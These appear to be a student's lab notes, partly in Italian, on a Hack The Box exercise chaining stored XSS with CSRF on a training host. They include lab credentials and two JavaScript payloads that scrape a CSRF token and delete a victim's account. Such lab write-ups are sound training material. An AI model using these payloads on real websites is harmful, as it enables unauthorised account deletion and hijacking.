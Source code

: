 Open a New Private Window, navigate to http://minilab.htb.net again and log in to the application using the credentials below:

    Email: goldenpeacock467
    Password: topcat

Andiamo su http://minilab.htb.net/profile?email=ela.stienen@example.com
Vediamo il profilo di ela
Ora se torniamo sulla pagina profilo dell'altro tizio vediamo che e' diventata pubblica (aggiorna la pagina). Vuol dire che lo script inserito nella pagina come payload del profilo della tizia e stato eseguito e ha funzionato, agirando le policy di same-origin perche' effettivamente l'origine e' la stessa!!!


Adapt the XSS payload above to delete @goldenpeacock467's account through CSRF

```js
<script>
let email=document.querySelector('#userProfileEmail');
console.log("Email", email.innerText);
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get',`/app/delete/${email.innerText}`,true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.send('csrf='+token);
};
</script>

```

soluzione CABLATA!

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/mhmdth.rdyy@example.com',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>

```

# Token debole (lab_csfr_weak)
